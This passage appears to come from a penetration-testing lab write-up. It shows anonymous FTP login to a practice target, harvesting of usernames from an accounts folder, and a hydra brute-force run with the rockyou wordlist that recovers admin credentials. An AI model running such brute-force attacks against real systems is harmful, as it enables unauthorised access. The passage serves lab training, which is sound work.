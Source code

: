 ```bash
ftp 192.168.55.46
Connected to 192.168.55.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
Name (192.168.55.46:kali): anonymous
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

---

## Information Gathering form ftp connection

- If we check inside **accounts** folder we get two usernames inside it.

```bash
ftp> ls accounts
229 Entering Extended Passive Mode (|||2050|)
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Aug 02  2024 backup
----------   1 root     root          764 Aug 02  2024 acc[Offsec].uac
----------   1 root     root         1030 Jul 17 19:21 acc[anonymous].uac
----------   1 root     root          926 Aug 02  2024 acc[admin].uac
226 Closing data connection.

```

---

## Bruteforcing ftp with extra usernames

- Saving two usernames inside users.txt

```bash
echo "Offsec\nadmin" >users.txt 
```

- Using hydra to bruteforce ftp

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt.gz ftp://192.168.55.46 -u
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-17 14:22:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://192.168.55.46:21/
[21][ftp] host: 192.168.55.46   login: admin   password: admin
```
